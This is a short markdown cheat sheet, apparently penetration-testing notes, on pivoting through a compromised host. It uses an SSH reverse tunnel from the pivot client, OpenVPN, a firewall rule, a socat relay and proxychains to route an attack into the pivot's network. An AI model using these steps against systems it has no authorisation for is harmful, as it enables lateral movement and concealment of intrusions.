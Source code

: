 ### pivot using ssh and proxychains
```
The use of a VPN ensures that no third party can use the proxychains port.
It may be necessary to set port forwarding on the SSH server from port 9051 to port 9050.
However, a direct connection to port 9050 on the ssh server from the attacker machine should also be possible.
```

### start ssh session on pivot client
```
ssh -o 'StrictHostKeyChecking=no' -p <port> -i .\<sshPrivateKey> -N -R 9050 <user>@<rhost>
```

### start vpn on attacker machine to server on the internet
```
openvpn --config <configFile>
```

### adjust firewall on ssh server to allow connections from attacker machine
```
ufw allow from <rhost>
```

### if necessary adjust file /etc/proxychains4.conf on attacker machine
```
socks4 <sshServer> 9051
```

### if necessary start socat on ssh server
```
socat TCP-LISTEN:9051,fork TCP:localhost:9050
```

### execute attack from attacker machine using proxychains
```
proxychains <command>
```

